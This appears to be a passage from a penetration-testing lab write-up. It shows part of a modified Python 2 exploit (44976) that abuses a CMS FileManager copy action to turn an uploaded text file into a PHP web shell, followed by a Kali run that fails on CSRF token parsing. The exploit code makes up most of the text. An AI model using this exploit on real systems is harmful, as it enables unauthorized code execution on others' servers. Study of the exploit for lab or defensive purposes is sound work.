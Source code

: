 ``` python
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```

Running the exploit generates an unexpected error
```
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```